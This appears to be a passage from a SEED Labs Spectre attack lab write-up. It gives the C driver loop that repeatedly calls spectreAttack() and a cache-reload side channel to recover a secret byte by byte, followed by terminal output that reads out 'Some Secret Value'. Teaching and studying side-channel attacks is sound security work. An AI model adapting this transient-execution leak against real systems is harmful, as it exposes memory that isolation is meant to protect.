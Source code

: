 ```c
int main() {
  int i;
  uint8_t s;
  
  for (int n = 0; n < 17; ++n)
  {
    size_t larger_x = (size_t)(secret-(char*)buffer+n);
    flushSideChannel();
    for(i=0;i<256; i++) scores[i]=0; 
    for (i = 0; i < 1000; i++) {
      spectreAttack(larger_x);
      reloadSideChannelImproved();
    }
    int max = 0;
    for (i = 0; i < 256; i++){
     if(scores[max] < scores[i])  
       max = i;
    }
    printf("The  secret value is '%c'\t", (char)max);
    printf("The number of hits is %d\n", scores[max]);
  }
  return (0); 
}
```

Compile and run mutiple times, we can get the final results：

```shell
[06/25/20]seed@VM:~/.../Spectre_Attack$ ./SpectreAttackImproved 
The  secret value is 'S'	The number of hits is 7
The  secret value is 'o'	The number of hits is 4
The  secret value is 'm'	The number of hits is 4
The  secret value is 'e'	The number of hits is 1
The  secret value is ' '	The number of hits is 2
The  secret value is 'S'	The number of hits is 3
The  secret value is 'e'	The number of hits is 3
The  secret value is 'c'	The number of hits is 1
The  secret value is 'r'	The number of hits is 1
The  secret value is 'e'	The number of hits is 3
The  secret value is 't'	The number of hits is 4
The  secret value is ' '	The number of hits is 3
The  secret value is 'V'	The number of hits is 1
The  secret value is 'a'	The number of hits is 4
The  secret value is 'l'	The number of hits is 1
The  secret value is 'u'	The number of hits is 2
The  secret value is 'e'	The number of hits is 2

```



